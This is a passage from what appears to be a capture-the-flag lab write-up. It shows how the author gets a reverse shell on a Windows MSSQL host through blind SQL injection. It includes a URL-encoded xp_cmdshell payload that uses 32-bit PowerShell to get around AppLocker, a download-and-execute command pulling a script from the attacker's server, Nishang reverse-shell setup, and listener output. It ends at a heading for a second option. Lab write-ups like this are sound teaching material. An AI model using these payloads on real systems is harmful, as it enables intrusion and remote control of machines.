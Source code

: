 
This works! So I know I can access PowerShell Using that path and structure.
It seems that AppLocker is likely blocking this account running PowerShell,
but the admin forgot about the 32-bit version.

#### Reverse Shell [Option 1]

Because I’m dealing with a blind injection here, I’m going to start with a
simple payload that downloads and runs a Powershell script from my server:

    
    
    C:\windows\syswow64\windowspowershell\v1.0\powershell.exe "iex(new-object net.webclient).downloadstring(\"http://10.10.14.6/rev.ps1\")"
    

I’ll have to `\` escape the `"`, and then URL-encode it into this payload:

    
    
    logintype=3%3bexecute+xp_cmDshElL+'C%3a\windows\syswow64\windowspowershell\v1.0\powershell.exe+"iex(new-object+net.webclient).downloadstring(\"http%3a//10.10.14.6/rev.ps1\")"'%3b&username=admin&password=admin&rememberme=ON&B1=Login
    

When I run this, there’s a request for `REV.PS1` on my server:

    
    
    10.10.10.72 - - [24/Apr/2022 10:55:24] "GET /REV.PS1 HTTP/1.1" 200 - 
    

It’s interesting that the MSSQL instance is upper-casing everything, but I can
work with that.

I’ll grab a copy of `Invoke-PowerShellTcp.ps1` from
[GitHub](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-
PowerShellTcp.ps1), and name it `REV.PS1`. I’ll add a line at the end of it to
call itself:

    
    
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
    

Now when I run, I get a shell:

    
    
    oxdf@hacky$ rlwrap -cAr ncat -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.72.
    Ncat: Connection from 10.10.10.72:49237.
    Windows PowerShell running as user sqlserv on FIGHTER
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\Windows\system32>whoami
    fighter\sqlserv
    

#### Reverse Shell [Option 2]
